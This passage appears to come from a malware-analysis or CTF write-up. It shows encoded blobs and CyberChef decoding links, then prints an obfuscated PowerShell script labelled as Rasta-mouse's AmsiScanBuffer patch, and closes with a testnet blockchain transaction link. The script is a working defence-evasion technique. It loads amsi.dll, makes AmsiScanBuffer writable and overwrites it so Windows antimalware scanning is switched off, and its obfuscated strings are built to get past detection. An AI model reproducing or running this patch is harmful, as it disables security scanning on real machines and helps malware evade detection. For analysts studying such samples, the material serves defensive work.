NmU2YzQyNTI3YTY4NDI1YTQ1NDY0MzYyNDU0NjQ4NTQ1NTQ2NmI1MTU1NDY3YTUxNTU0ZTQyNTE1NzRhMzMKNTE2YTQ2NDI1MzQ2NDY0MjUzNTU0NjQzNGQ1NTQ2NDg2MTMwNDY2OTVhMzA0OTc3NTE1NTRlNDI1MTU3NGE0Mgo1MTZlNjQ0MjUyMzE2YzQyNTk2YjQ2NDM1NTQ1NDY0ODY0MzA0NjYxNTE1NTRhNTI1MTU1Njg0YTUxNTc0YTMzCjUxNmE0MjQyNTIzMTU2NDI1NzU4NjQ0MzRkNDU0NjQ0NjEzMDQ2NTA2NDMwNDY0ZjUxNTU0Njc2NTE1NzVhNTIKNTE1NTM1NDI1MTU3Mzk0MjUzNTc2NDQzNTE1NTQ2NDI0ZDQ1NDY0NDVhMzA0NjRmNTE1NTQ2NzY1MTU2NDY1Mgo1MTZkNzQ0MjUyMzE0NjQyNTQ0NjQ2NDM1NjU1NDY0OTYxMzA0NjZhNTE1NTRhNzM1MTU1NGU0MjUxNTU3MDQyCjUxNmQzMTQyNTIzMjY0NDI1NzZkNjQ0MzRlNTU0NjQ4NTQ1NTQ2NDU1NTU1NDY0YzUxNTU0NTc3NTE1NTRlNmUKNTE1Nzc0NDI1MjdhNTI0MjVhNTc2NDQzNGQzMDQ2NDk1NTU1NDY2MTY0MzA0OTc5NTE1NTY0NTI1MTU1NmM0Mgo1MTU0NmM0MjUxMzA0NjQyNTYzMzY0NDM2MjU1NDY0ODVhMzA0NjYxNWEzMDQ5MzE1MTU1NjQ0ZTUxNTY2ODUyCjUxNTQ1YTQyNTI0NzM5NDI1NjQ1NDY0MzY0NmI0NjQ4NTI1NTQ2NjE1MTU1NGE0ZTUxNTU2NDcyNTE1NjZjNmUKNTE2ZTZjNDI1MjMwNTY0MjU5MzI2NDQzNGU1NTQ2NDQ1YTMwNDY0YTVhMzA0NjcyNTE1NTRlNmU1MTU1NzQ0Mgo1MTU3MzU0MjU0MzAzMTQyNTk2YzQ2NDM2NTZiNDY1MDRkNDU0NjRkNWEzMDQ2NzU1MTU1NGU3YTUxNTU3MDMzCjUxNmQ3NDQyNTIzMzY0NDI1OTZiNDY0MjYyNmI0NjQ0NjEzMDQ2NGQ1YTMwNGE1MDUxNTU1NTM0NTE1NzRlNmUKNTE2ZTUyNDI1MjU1NTY0MjU5NmI0NjQzNjM0NTQ2NDk2MjMwNDY1MzU1NTU0Njc2NTE1NTVhN2E1MTU2NmMzMwo1MTZiNmM0MjUyMzA1NjQyNTY1NzY0NDM1YTQ1NDY0NDVhMzA0NjRmNjQzMDQ2MzM1MTU1NGU3NjUxNTUzMTMzCjUxNTg2ODQyNTE3YTY4NDI1NDU4NjQ0MjY1NDU0NjQ0NjEzMDQ2NGM2NDMwNGE2OTUxNTU2NDRlNTE1NzQ2NDIKNTE2ZDY4NDI1MzQ1NmM0MjU3NDY0NjQyNjIzMDQ2NDU1MjU1NDY0ZTU1NTU0NjM0NTE1NTRlNzI1MTU1NzQzMwo1MTZkNGE0MjUyNTUzMTQyNTk1NTQ2NDM2MTQ1NDY0OTUzNTU0NjU5NTU1NTQ2NzY1MTU1NWE3YTUxNTY0NjZlCjUxNmE1NjQyNTM0NjQ2NDI1NzZjNDY0MzVhNDU0NjQ1NTE1NTQ2NmM1MTU1NDU3YTUxNTU1MjRhNTE1NTc0NTIKNTE1ODRhNDI1MjZlNGU0MjU1NTg2NDQzNTM1NTQ2NDg1MjU1NDY1NjVhMzA0YTZiNTE1NTRlNmU1MTU1MzE1Mgo1MTU4NjQ0MjUyNDc3NDQyNTMzMzY0NDI0ZDZiNDY0NTUxNTU0NjRkNTU1NTQ1Nzk1MTU1NTI0MjUxNTU3NDUyCjUxNTg0YTQyNTI2ZTRlNDI1NTU4NjQ0MzYyMzA0NjQ4NTI1NTQ2NTY1YTMwNGE2YjUxNTU0ZTZlNTE1NTM1NTIKNTE1NDQyNDI1MTMzNGU0MjU0NTY0NjQyNGQ0NTQ2NDQ2MTMwNDY0YzU1NTU0NjZlNTE1NTRkNzc1MTU3NGU2ZQo1MTZkNzg0MjUzNDU0NjQyNTk2YjQ2NDM2MTQ1NDY0ODU0NTU0NjYxNTU1NTQ2NmU1MTU1NWE3YTUxNTY2YzMzCjUxNmQzOTQyNTIzMDU2NDI1NjU3NjQ0MzVhNDU0NjQ0NWEzMDQ2NTg2NDMwNGE3MDUxNTU1YTcyNTE1NjVhNDIKNTE2YjVhNDI1MjZhNDI0MjU0NTU0NjQzNGU0NTQ2NDU1NjU1NDY1YTY0MzA0Njc3NTE1NTRlN2E1MTU2NjQzMwo1MTZiNTI0MjUyNTc2NDQyNTc1NjQ2NDM2NTU1NDY0NzRkNDU0NjRjNTE1NTRhNjk1MTU1NjQ0YTUxNTY2NDUyCjUxNmM1NjQyNTI1NjU2NDI1NzQ2NDY0MjY0MzA0NjQ5NWEzMDQ2NGY2NDMwNDYzMzUxNTU0ZTcyNTE1NTc0MzMKNTE2ZDRhNDI1MjU1MzE0MjU5NTU0NjQzNTE2YjQ2NDc1MzU1NDY1OTU1NTU0Njc2NTE1NTUyNDY1MTU1MzE2ZQo1MTU4NzA0MjUxMzM0ZTQyNTQ1NzY0NDI2NDQ1NDY0NTUzNTU0NjRjNTU1NTQ2Nzk1MTU1NWE3YTUxNTY0NjMzCjUxNmI2YzQyNTIzMDU2NDI1OTMyNjQ0MzVhNDU0NjQ0NWEzMDQ2NTg2NDMwNGE3MDUxNTU2ODcyNTE1NzUyNDIKNTE2ZDc4NDI1MjZhNDI0MjU0NTU0NjQzNGU0NTQ2NDU1NTU1NDY2MTUxNTU0Njc3NTE1NTRlN2E1MTU2NjQzMwo1MTZiNTI0MjUyMzI2NDQyNTU1NjQ2NDM1NTMwNDY0NzRkNDU0NjRjNTE1NTRhNjk1MTU1NjQ0YTUxNTY2NDUyCjUxNmM1NjQyNTI1NjU2NDI1NzQ2NDY0MjY0MzA0NjQ5NWEzMDQ2NGY1YTMwNGE3MzUxNTU0ZTcyNTE1NTc0MzMKNTE2ZDRhNDI1MjMwMzE0MjU5NTU0NjQzNjE0NTQ2NDk1MzU1NDY1OTU1NTU0Njc2NTE1NTVhN2E1MTU2NmM2ZQo1MTZhNTY0MjUyNmM0NjQyNTU2YzQ2NDM1YTQ1NDY0NTUxNTU0NjZjNTE1NTQ1N2E1MTU1NjQ1MjUxNTU3NDUyCjUxNTg0MjQyNTEzMDZjNDI1MzMxNDY0MjU0NmI0NjQyNjIzMDQ2NGI1MTU1NGEzMTUxNTU2NDc2NTE1NzU2NTIKNTE2YTRlNDI1MjMyNGU0MjU5NmU2NDQyNWEzMDQ2NDU0ZDQ1NDY0YTUxNTU0YTY5NTE1NTY0NWE1MTU3NDY0Mgo1MTZkMzE0MjUzNDc3NDQyNTc1ODY0NDM1YTQ1NDY0NTYyMzA0NjUwNWEzMDRhNDk1MTU1NjQ1NjUxNTc1MjQyCjUxNmM0NjQyNTM0NTZjNDI1OTZlNjQ0MzYxNmI0NjQ2NTI1NTQ2NjE1MTU1NGE3MjUxNTU2ODRhNTE1NjcwNTIKNTE2ZTcwNDI1MzQ1MzE0MjUzMzA0NjQyNjEzMDQ2NDg0ZTQ1NDY2YzVhMzA0OTdhNTE1NTY4NTI1MTU2NzAzMwo1MTZhNGE0MjUyMzE0NjQyNTQ0NTQ2NDI1YTMwNDY0NDUzNTU0NjRiNTE1NTQ2NzY1MTU1NGU2ZTUxNTU3MDMzCjUyNDU0YTQyNTI3YTQyNDI1OTMzNjQ0NTYzMzA0NjQ3NTQ1NTQ2NWE2NDMwNDY3NTUxNTU0ZTdhNTE1NTcwMzMKNTI0Nzc0NDI1MjdhNTI0MjU1NTc2NDQzNGQ1NTQ2NDg1NzU1NDY2MTVhMzA0Njc1NTE1NTRlN2E1MTU1NzAzMwo1MTZkNzg0MjUzNDU2YzQyNTM2ZTY0NDI2MzQ1NDY0NDRlNDU0NjU1NWEzMDRhNTE1MTU1Njg0YTUxNTc0YTUyCjUxNmI0YTQyNTI1ODY0NDI1NTMxNDY0MzRlNmI0NjQ2NTY1NTQ2NGM1MTU1NGE2OTUxNTU1NjRlNTE1NjRlNDIKNTE2ZDY4NDI1MjZiNmM0MjU3NDY0NjQyNjIzMDQ2NDc2MzMwNDY1YTVhMzA0YTYxNTE1NTVhNTI1MTU2NGE1Mgo1MTZkNTI0MjUyNDU0NjQyNWE1NTQ2NDI0ZDQ1NDY0NTU3NTU0NjRjNTU1NTQ2Nzk1MTU1NWE3YTUxNTY0NjMzCjUxNmQzOTQyNTIzMDU2NDI1OTMyNjQ0MzVhNDU0NjQ0NWEzMDQ2NTg2NDMwNGE3MDUxNTU1YTcyNTE1NjVhNDIKNTE2ZDc4NDI1MjZhNDI0MjU0NTU0NjQzNGU0NTQ2NDU1NzU1NDY2MTVhMzA0Njc3NTE1NTRlN2E1MTU2NjQzMwo1MTZkNzA0MjUyNTc2NDQyNTU1NjQ2NDM2NTU1NDY0NzRkNDU0NjRjNTE1NTRhNjk1MTU1NjQ0YTUxNTY2NDUyCjUxNmM1NjQyNTI1NjU2NDI1NzQ2NDY0MjY0MzA0NjQ5NWEzMDQ2NGY2NDMwNDYzNTUxNTU0ZTcyNTE1NTc0MzMKNTE2ZDRhNDI1MjU1MzE0MjU1MzA0NjQzNjE0NTQ2NDk1MzU1NDY1OTU1NTU0Njc2NTE1NTUyNDY1MTU1MzE0Mgo1MTU0NTY0MjUxMzI3NDQyNTMzMzY0NDM1OTZiNDY0ODU0NTU0NjU0NTE1NTRhNmY1MTU1NWE0YTUxNTY2ODUyCjUxNTczOTQyNTI2ZTRlNDI1NTU3NjQ0MzRlNTU0NjQ3NTU1NTQ2NjE1NTU1NGE2YjUxNTU1MjQyNTE1NzU2NDIKNTE1NDQyNDI1MjQ2NDY0MjUzMzE0NjQyNjM0NTQ2NDQ1MTU1NDY0ZDU1NTU0YTM1NTE1NTY0NTY1MTU3NGU0Mgo1MTZlNGU0MjUyMzA1NjQyNTc1ODY0NDM2MjQ1NDY0NDUxNTU0NjU4NjQzMDRhNzE1MTU1NjQ2ZTUxNTY0NjUyCjUxNmM0ZTQyNTI2YTQyNDI1MzMwNDY0MjRlNTU0NjQ1NTM1NTQ2NGM1NTU1NDY3OTUxNTU1YTdhNTE1NjQ2MzMKNTE2ZDM5NDI1MjMwNTY0MjU5MzI2NDQzNWE0NTQ2NDQ1YTMwNDY1ODY0MzA0YTcwNTE1NTY4NzI1MTU2NWE0Mgo1MTZiNWE0MjUyNmE0MjQyNTQ1NTQ2NDM0ZTQ1NDY0NTU5MzA0NjRlNTE1NTQ2Nzc1MTU1NGU3YTUxNTY2NDMzCjUxNmQ3MDQyNTIzMjY0NDI1NzU2NDY0MzU1MzA0NjQ3NGQ0NTQ2NGM1MTU1NGE2OTUxNTU2NDRhNTE1NjY0NTIKNTE2YzU2NDI1MjU2NTY0MjU3NDY0NjQyNjQzMDQ2NDk1YTMwNDY0ZjY0MzA0YTcwNTE1NTRlNzI1MTU1NzQzMwo1MTZkNGE0MjUyMzAzMTQyNTk1NTQ2NDM2MTQ1NDY0NzUzNTU0NjU5NTU1NTQ2NzY1MTU1NWE3YTUxNTY0NjZlCjUxNmM3MDQyNTM0NjQ2NDI1NTZjNDY0MzVhNDU0NjQ1NTE1NTQ2NmM1MTU1NDU3NzUxNTU2NDUyNTE1NTc0NTIKNTE1ODRhNDI1MjZlNGU0MjU3NTg2NDQzNjIzMDQ2NDg1MjU1NDY2YTVhMzA0YTZiNTE1NTRlNmU1MTU1MzE2ZQo1MTU4Njg0MjUxMzM0ZTQyNTQzMDQ2NDI0ZTU1NDY0NDYxMzA0NjRjNjQzMDRhNjk1MTU1NjQ0ZTUxNTc0NjQyCjUxNmQ2ODQyNTI2YjZjNDI1NzQ2NDY0MjYyMzA0NjQ1NTQ1NTQ2NGU1NTU1NDY3OTUxNTU1MjcyNTE1NTM1NDIKNTE1ODQyNDI1MTMyNzQ0MjUzNTc2NDQyNjM0NTQ2NDI0ZDQ1NDY0NDVhMzA0NjcyNTE1NTY4NDI1MTU1NmM0Mgo1MTU0NmM0MjUxMzA0NjQyNTQ1NTQ2NDI1NDZiNDY0MjYyMzA0NjU4NjQzMDRhNzQ1MTU1NjQ2ZTUxNTY3MDZlCjUxNmE1NjQyNTIzMDMxNDI1NzQ2NDY0MjRlNmI0NjQ1NjIzMDQ2NTc1YTMwNGE3NzUxNTU2ODRhNTE1NzUyNDIKNTE2YTQ2NDI1MjMwNTY0MjU5NmI0NjQzNTU1NTQ2NDk1MzU1NDY2OTY0MzA0OTc3NTE1NTY0NTY1MTU2NmMzMwo1MTZhNDI0MjUxMzI2NDQyNTM2YjQ2NDM2NDU1NDY0ODYyMzA0NjZjNTU1NTQ5N2E1MTU1NjQ2YTUxNTc0YTMzCjUxNTg0ZTQyNTEzMDQ2NDI1NjMzNjQ0MzRkNTU0NjQ4NjEzMDQ2Njk1YTMwNDk3NzUxNTU1MjRlNTE1NTMxNmUKNTE2ZDUyNDI1MjQ2NTY0MjU0NDU0NjQyNWEzMDQ2NDU1MTU1NDY2YzUxNTU0NTc3NTE1NTUyNDI1MTU1Nzg0Mgo1MTU3NjQ0MjUyNmU0ZTQyNTkzMjY0NDM2MjQ1NDY0ODU3NTU0NjU5NTU1NTQ2NzI1MTU1Njg0MjUxNTU3NDUyCjUxNTUzNTQyNTE1NzM5NDI1MzZiNDY0MzYyMzA0NjQ4NTI1NTQ2Njk1MTU1NDkzMTUxNTU0ZTQyNTE1NjQyNTIKNTE1NzY0NDI1MTMwNmM0MjU0NTU0NjQzNGU0NTQ2NDY1MzU1NDY1MDUxNTU0NjcwNTE1NTQ1Nzc1MTU1NGU2ZQo1MTU3NzQ0MjUyMzE0NjQyNTc2YjQ2NDM2NDU1NDY0ODU5MzA0NjRhNTE1NTQ1MzU1MTU1NGU0MjUxNTU2YzZlCjUxNTg2NDQyNTM0NzY0NDI1NDZjNDY0MjRkMzA0NjQ0NTM1NTQ2NDU1NTU1NDY0YzUxNTU0ZTUyNTE1NzU2NDIKNTE2ZDc0NDI1MjMxNTY0MjU5MzE0NjQyNWEzMDQ2NDU0ZDQ1NDY0YTUxNTU0NjcwNTE1NTUyNDI1MTU3NTY0Mgo1MTU4NjQ0MjUyNDU0NjQyNTM1NzY0NDI1NDZiNDY0MjYyMzA0NjRiNTE1NTRhMzA1MTU1NjQ0YTUxNTc0ZTZlCjUxNmQzMTQyNTEzMDQ2NDI1NTQ2NDY0MjVhMzA0NjQ0NTM1NTQ2NGU1MTU1NDkzMDUxNTU1MjQyNTE1NTM1MzMKNTE1NzZjNDI1MTU0NDI0MjUxMzI2NDQyNjEzMDQ2NDg1NjU1NDY2YjY0MzA0YTZmNTE1NTY4NDY1MTU1NmM0Mgo1MTU0NmM0MjUxMzA0NjQyNTM1NzY0NDI2NDMwNDY0OTVhMzA0NjUwNTE1NTQ2MzM1MTU1NGU0YTUxNTU1MjUyCjUxNTU3NDQyNTEzMTQ2NDI1NzZkNjQ0MzY1NDU0NjQ5NjIzMDQ2NmI1MTU1NDY2ZTUxNTU1MTc3NTE1NTZjNDIKNTE1NzZjNDI1MjQ1NDY0MjVhNTU0NjQzNTI0NTQ2NDU1NDU1NDY0YTVhMzA0NjRmNTE1NTQ2NzY1MTU1NzA0Mgo1MTZhNTY0MjUyMzE2YzQyNTk2ZDY0NDM2MzU1NDY0ODUzNTU0NjRhNTE1NTQ1MzU1MTU1NGU0MjUxNTY2NDMzCjUxNmI0ZTQyNTM0Nzc0NDI1YTQ1NDY0MzYyNDU0NjQ3NjMzMDQ2NTk1NTU1NGE2YjUxNTU0ZTQyNTE1NTc0NDIKNTE1Nzc0NDI1MjMyNjQ0MjU3NTY0NjQzNjMzMDQ2NDk2MTMwNDY0ZDUxNTU0NjcyNTE1NTY0NTI1MTU2NzA0Mgo1MTZlNTY0MjUyMzI0ZTQyNTQ0NTQ2NDI2MTMwNDY0OTVhMzA0NjYxNTE1NTRhNzM1MTU1Njg0NjUxNTU3ODQyCjUxNTc3NDQyNTI3YTQyNDI1NzU3NjQ0MzY1NTU0NjQ4NTc1NTQ2NGQ1MTU1NDY3OTUxNTU0ZTUyNTE1NjcwNTIKNTE2YTRlNDI1MjMwNTY0MjU5MzE0NjQyNjMzMDQ2NDQ2MzMwNDY0YjUxNTU0YTc0NTE1NTY4NDY1MTU3NTY2ZQo1MTZhNDI0MjUxMzI3NDQyNTI0NjQ2NDI1MzMwNDY0NzYzMzA0NjU2NjQzMDQ5MzE1MTU1Njg0ZTUxNTc1MjQyCjUxNmQ3ODQyNTI3YTQyNDI1NDQ3NjQ0MzU1MzA0NjQ5NTY1NTQ2Njk1YTMwNDk3NzUxNTU2NDcyNTE1NzRhNTIKNTE2ZDc4NDI1MTdhNTI0MjU1MzE0NjQzNjQ1NTQ2NDk1NTU1NDY2MTU1NTU0YTM1NTE1NTYzMzQ1MTU3NGU0Mgo1MTZjNTI0MjUyMzE1NjQyNTkzMjY0NDM0ZDZiNDY0ODYxMzA0NjVhNjQzMDRhNzM1MTU1Njg0ZTUxNTU3ODZlCjUxNmIzNTQyNTIzMDU2NDI1OTMyNjQ0MzY1NmI0NjQ4NWEzMDQ2NWE1NTU1NGE3YTUxNTU1OTc3NTE1NTM5NmUKNTE1NDVhNDI1MjU1MzE0MjU5NmU2NDQzNjQzMDQ2NDk2MTMwNDY0YzUxNTU0NjcyNTE1NTY4NzI1MTU2NzA2ZQo1MTZlNTY0MjUyMzIzOTQyNTc1NzY0NDI2MzMwNDY0NDUxNTU0NjRlNTE1NTQ2N2E1MTU1NGU0MjUxNTU3MDQyCjUxNmU1NjQyNTIzMjM5NDI1YTU2NDY0MzRkMzA0NjQ4NTkzMDQ2Njk2NDMwNDY3YTUxNTU0ZTQyNTE1NTM1NmUKNTE1ODQyNDI1MTU0MzAzOTQ5Njk2YjcwNjY0NzZjNmM2NTQxM2QzZA&oeol=CR); [CyberChef 2](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,true)Decode_text('UTF-16LE%20(1200)')&input=SXdCU0FHRUFjd0IwQUdFQUxRQnRBRzhBZFFCekFHVUFjd0FnQUVFQWJRQnpBR2tBTFFCVEFHTUFZUUJ1QUMwQVFnQjFBR1lBWmdCbEFISUFJQUJ3QUdFQWRBQmpBR2dBSUFCY0FHNEFEUUFLQUNRQVpnQm9BR1lBZVFCakFDQUFQUUFnQUVBQUlnQU5BQW9BZFFCekFHa0FiZ0JuQUNBQVV3QjVBSE1BZEFCbEFHMEFPd0FOQUFvQWRRQnpBR2tBYmdCbkFDQUFVd0I1QUhNQWRBQmxBRzBBTGdCU0FIVUFiZ0IwQUdrQWJRQmxBQzRBU1FCdUFIUUFaUUJ5QUc4QWNBQlRBR1VBY2dCMkFHa0FZd0JsQUhNQU93QU5BQW9BY0FCMUFHSUFiQUJwQUdNQUlBQmpBR3dBWVFCekFITUFJQUJtQUdnQVpnQjVBR01BSUFCN0FBMEFDZ0FnQUNBQUlBQWdBRnNBUkFCc0FHd0FTUUJ0QUhBQWJ3QnlBSFFBS0FBaUFHc0FaUUJ5QUc0QVpRQnNBRE1BTWdBaUFDa0FYUUFOQUFvQUlBQWdBQ0FBSUFCd0FIVUFZZ0JzQUdrQVl3QWdBSE1BZEFCaEFIUUFhUUJqQUNBQVpRQjRBSFFBWlFCeUFHNEFJQUJKQUc0QWRBQlFBSFFBY2dBZ0FFY0FaUUIwQUZBQWNnQnZBR01BUVFCa0FHUUFjZ0JsQUhNQWN3QW9BRWtBYmdCMEFGQUFkQUJ5QUNBQWFBQk5BRzhBWkFCMUFHd0FaUUFzQUNBQWN3QjBBSElBYVFCdUFHY0FJQUJ3QUhJQWJ3QmpBRTRBWVFCdEFHVUFLUUE3QUEwQUNnQWdBQ0FBSUFBZ0FGc0FSQUJzQUd3QVNRQnRBSEFBYndCeUFIUUFLQUFpQUdzQVpRQnlBRzRBWlFCc0FETUFNZ0FpQUNrQVhRQU5BQW9BSUFBZ0FDQUFJQUJ3QUhVQVlnQnNBR2tBWXdBZ0FITUFkQUJoQUhRQWFRQmpBQ0FBWlFCNEFIUUFaUUJ5QUc0QUlBQkpBRzRBZEFCUUFIUUFjZ0FnQUV3QWJ3QmhBR1FBVEFCcEFHSUFjZ0JoQUhJQWVRQW9BSE1BZEFCeUFHa0FiZ0JuQUNBQWJnQmhBRzBBWlFBcEFEc0FEUUFLQUNBQUlBQWdBQ0FBV3dCRUFHd0FiQUJKQUcwQWNBQnZBSElBZEFBb0FDSUFhd0JsQUhJQWJnQmxBR3dBTXdBeUFDSUFLUUJkQUEwQUNnQWdBQ0FBSUFBZ0FIQUFkUUJpQUd3QWFRQmpBQ0FBY3dCMEFHRUFkQUJwQUdNQUlBQmxBSGdBZEFCbEFISUFiZ0FnQUdJQWJ3QnZBR3dBSUFCV0FHa0FjZ0IwQUhVQVlRQnNBRkFBY2dCdkFIUUFaUUJqQUhRQUtBQkpBRzRBZEFCUUFIUUFjZ0FnQUd3QWNBQkJBR1FBWkFCeUFHVUFjd0J6QUN3QUlBQlZBRWtBYmdCMEFGQUFkQUJ5QUNBQWFRQjRBR0VBYWdCdEFIb0FMQUFnQUhVQWFRQnVBSFFBSUFCbUFHd0FUZ0JsQUhjQVVBQnlBRzhBZEFCbEFHTUFkQUFzQUNBQWJ3QjFBSFFBSUFCMUFHa0FiZ0IwQUNBQWJBQndBR1lBYkFCUEFHd0FaQUJRQUhJQWJ3QjBBR1VBWXdCMEFDa0FPd0FOQUFvQWZRQU5BQW9BSWdCQUFBMEFDZ0FOQUFvQVFRQmtBR1FBTFFCVUFIa0FjQUJsQUNBQUpBQm1BR2dBWmdCNUFHTUFEUUFLQUEwQUNnQWtBRzRBZWdCM0FIUUFad0IyQUdRQUlBQTlBQ0FBV3dCbUFHZ0FaZ0I1QUdNQVhRQTZBRG9BVEFCdkFHRUFaQUJNQUdrQVlnQnlBR0VBY2dCNUFDZ0FJZ0FrQUNnQUtBQW5BT01BYlFCekFPMEFMZ0FuQUNzQUp3QmtBR3dBYkFBbkFDa0FMZ0JPQUU4QWNnQnRBRUVBYkFCcEFIb0FSUUFvQUZzQVl3QklBR0VBVWdCZEFDZ0FOd0F3QUNvQU13QXhBQzhBTXdBeEFDa0FLd0JiQUdNQWFBQmhBSElBWFFBb0FERUFNUUF4QUNrQUt3QmJBRU1BYUFCaEFISUFYUUFvQUZzQVFnQjVBSFFBWlFCZEFEQUFlQUEzQURJQUtRQXJBRnNBUXdCSUFHRUFVZ0JkQUNnQU1RQXdBRGtBS3dBMkFEQUFMUUEyQURBQUtRQXJBRnNBUXdCb0FHRUFVZ0JkQUNnQU5RQTBBQ3NBTVFBMEFDa0FLUUFnQUMwQWNnQmxBSEFBYkFCaEFHTUFaUUFnQUZzQVl3Qm9BR0VBVWdCZEFDZ0FXd0JpQUZrQVZBQkZBRjBBTUFCNEFEVUFZd0FwQUNzQVd3QkRBRWdBWVFCeUFGMEFLQUJiQUdJQVdRQlVBRVVBWFFBd0FIZ0FOd0F3QUNrQUt3QmJBRU1BYUFCQkFGSUFYUUFvQURFQU1nQXpBQ3NBTWdBdEFESUFLUUFyQUZzQVF3QklBR0VBY2dCZEFDZ0FXd0JpQUhrQWRBQmxBRjBBTUFCNEFEUUFaQUFwQUNzQVd3QkRBR2dBUVFCU0FGMEFLQUJiQUdJQVdRQlVBRVVBWFFBd0FIZ0FOZ0JsQUNrQUt3QmJBR01BYUFCaEFISUFYUUFvQUZzQVlnQjVBRlFBUlFCZEFEQUFlQUEzQUdRQUtRQXBBQ0lBS1FBTkFBb0FKQUJ1QUdvQWVRQjNBR2NBYndBZ0FEMEFJQUJiQUdZQWFBQm1BSGtBWXdCZEFEb0FPZ0JIQUdVQWRBQlFBSElBYndCakFFRUFaQUJrQUhJQVpRQnpBSE1BS0FBa0FHNEFlZ0IzQUhRQVp3QjJBR1FBTEFBZ0FDSUFKQUFvQUNnQUp3REJBRzBBY3dEc0FGTUFZd0FuQUNzQUp3RGtBRzRBUWdCMUFHWUFaZ0FuQUNzQUp3QmxBSElBSndBcEFDNEFUZ0JQQUhJQWJRQkJBRXdBU1FCNkFFVUFLQUJiQUVNQVNBQmhBRklBWFFBb0FGc0FZZ0JaQUZRQVJRQmRBREFBZUFBMEFEWUFLUUFyQUZzQVF3Qm9BR0VBY2dCZEFDZ0FXd0JpQUZrQVZBQmxBRjBBTUFCNEFEWUFaZ0FwQUNzQVd3QmpBRWdBUVFCeUFGMEFLQUJiQUdJQVdRQlVBRVVBWFFBd0FIZ0FOd0F5QUNrQUt3QmJBRU1BU0FCaEFISUFYUUFvQURFQU1BQTVBQ2tBS3dCYkFHTUFTQUJoQUZJQVhRQW9BRnNBUWdCNUFGUUFaUUJkQURBQWVBQTBBRFFBS1FBcEFDQUFMUUJ5QUdVQWNBQnNBR0VBWXdCbEFDQUFXd0JqQUdnQVFRQlNBRjBBS0FBNUFESUFLUUFyQUZzQVF3Qm9BR0VBY2dCZEFDZ0FXd0JpQUhrQVZBQkZBRjBBTUFCNEFEY0FNQUFwQUNzQVd3QmpBR2dBWVFCU0FGMEFLQUJiQUdJQVdRQlVBRVVBWFFBd0FIZ0FOd0JpQUNrQUt3QmJBR01BYUFCaEFGSUFYUUFvQUZzQVFnQlpBSFFBUlFCZEFEQUFlQUEwQUdRQUtRQXJBRnNBWXdCb0FHRUFjZ0JkQUNnQU1nQXhBQ3NBT0FBNUFDa0FLd0JiQUdNQWFBQmhBRklBWFFBb0FETUFNUUFyQURrQU5BQXBBQ2tBSWdBcEFBMEFDZ0FrQUhBQUlBQTlBQ0FBTUFBTkFBb0FXd0JtQUdnQVpnQjVBR01BWFFBNkFEb0FWZ0JwQUhJQWRBQjFBR0VBYkFCUUFISUFid0IwQUdVQVl3QjBBQ2dBSkFCdUFHb0FlUUIzQUdjQWJ3QXNBQ0FBV3dCMUFHa0FiZ0IwQURNQU1nQmRBRFVBTEFBZ0FEQUFlQUEwQURBQUxBQWdBRnNBY2dCbEFHWUFYUUFrQUhBQUtRQU5BQW9BSkFCb0FHRUFiQUI1QUNBQVBRQWdBQ0lBTUFCNEFFSUFPQUFpQUEwQUNnQWtBR1FBWkFCdUFHY0FJQUE5QUNBQUlnQXdBSGdBTlFBM0FDSUFEUUFLQUNRQWVBQmtBR1VBY1FBZ0FEMEFJQUFpQURBQWVBQXdBREFBSWdBTkFBb0FKQUJ0QUdJQWNnQm1BQ0FBUFFBZ0FDSUFNQUI0QURBQU53QWlBQTBBQ2dBa0FHVUFkd0JoQUhFQUlBQTlBQ0FBSWdBd0FIZ0FPQUF3QUNJQURRQUtBQ1FBWmdCeEFIb0FkQUFnQUQwQUlBQWlBREFBZUFCREFETUFJZ0FOQUFvQUpBQjVBR1lBYmdCcUFHSUFJQUE5QUNBQVd3QkNBSGtBZEFCbEFGc0FYUUJkQUNBQUtBQWtBR2dBWVFCc0FIa0FMQUFrQUdRQVpBQnVBR2NBTEFBa0FIZ0FaQUJsQUhFQUxBQWtBRzBBWWdCeUFHWUFMQUFyQUNRQVpRQjNBR0VBY1FBc0FDc0FKQUJtQUhFQWVnQjBBQ2tBRFFBS0FGc0FVd0I1QUhNQWRBQmxBRzBBTGdCU0FIVUFiZ0IwQUdrQWJRQmxBQzRBU1FCdUFIUUFaUUJ5QUc4QWNBQlRBR1VBY2dCMkFHa0FZd0JsQUhNQUxnQk5BR0VBY2dCekFHZ0FZUUJzQUYwQU9nQTZBRU1BYndCd0FIa0FLQUFrQUhrQVpnQnVBR29BWWdBc0FDQUFNQUFzQUNBQUpBQnVBR29BZVFCM0FHY0Fid0FzQUNBQU5nQXBBQT09&oeol=CR)

```powershell
#Rasta-mouses Amsi-Scan-Buffer patch \n
$fhfyc = @"
using System;
using System.Runtime.InteropServices;
public class fhfyc {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr ixajmz, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $fhfyc

$nzwtgvd = [fhfyc]::LoadLibrary("$(('ãmsí.'+'dll').NOrmAlizE([cHaR](70*31/31)+[char](111)+[Char]([Byte]0x72)+[CHaR](109+60-60)+[ChaR](54+14)) -replace [chaR]([bYTE]0x5c)+[CHar]([bYTE]0x70)+[ChAR](123+2-2)+[CHar]([byte]0x4d)+[ChAR]([bYTE]0x6e)+[char]([byTE]0x7d))")
$njywgo = [fhfyc]::GetProcAddress($nzwtgvd, "$(('ÁmsìSc'+'änBuff'+'er').NOrmALIzE([CHaR]([bYTE]0x46)+[Char]([bYTe]0x6f)+[cHAr]([bYTE]0x72)+[CHar](109)+[cHaR]([ByTe]0x44)) -replace [chAR](92)+[Char]([byTE]0x70)+[chaR]([bYTE]0x7b)+[chaR]([BYtE]0x4d)+[char](21+89)+[chaR](31+94))")
$p = 0
[fhfyc]::VirtualProtect($njywgo, [uint32]5, 0x40, [ref]$p)
$haly = "0xB8"
$ddng = "0x57"
$xdeq = "0x00"
$mbrf = "0x07"
$ewaq = "0x80"
$fqzt = "0xC3"
$yfnjb = [Byte[]] ($haly,$ddng,$xdeq,$mbrf,+$ewaq,+$fqzt)
[System.Runtime.InteropServices.Marshal]::Copy($yfnjb, 0, $njywgo, 6)
```

`amsi.dll`, `AmsiScanBuffer()`

Another obfuscated code:

[Testnet BSCScan result](https://testnet.bscscan.com/tx/0x5a6675770eff26562a47efa4e22bbf29d764351c13d8b1dce1f9c4f6a471d2f3#statechange)

